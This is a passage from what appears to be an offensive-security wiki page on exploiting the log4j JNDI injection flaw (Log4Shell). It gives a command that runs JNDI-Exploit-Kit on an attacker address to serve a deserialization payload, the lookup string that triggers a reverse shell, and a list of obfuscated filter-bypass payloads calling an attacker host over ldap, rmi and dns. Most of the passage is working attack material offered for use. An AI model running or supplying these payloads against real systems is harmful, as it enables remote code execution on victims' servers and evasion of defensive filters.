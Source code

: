 Use [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) to generate **JNDI links** where the exploit will be waiting for connections from the vulnerable machines. You can server **different exploit that can be automatically generated** by the JNDI-Exploit-Kit or even your **own deserialization payloads** (generated by you or ysoserial).

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.10:1389 -P /tmp/cc5.ser
```

![](<../../.gitbook/assets/image (642) (1) (1).png>)

Now you can easily use a generated JNDI link to exploit the vulnerability and obtain a **reverse shell** just sending to a vulnerable version of log4j: **`${ldap://10.10.14.10:1389/generated}`**

### Bypasses

```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/} //Notice the use of rmi
${${::-j}ndi:dns://attackerendpoint.com/} //Notice the use of dns
${${lower:jnd}${lower:${upper:ı}}:ldap://...} //Notice the unicode "i"
```
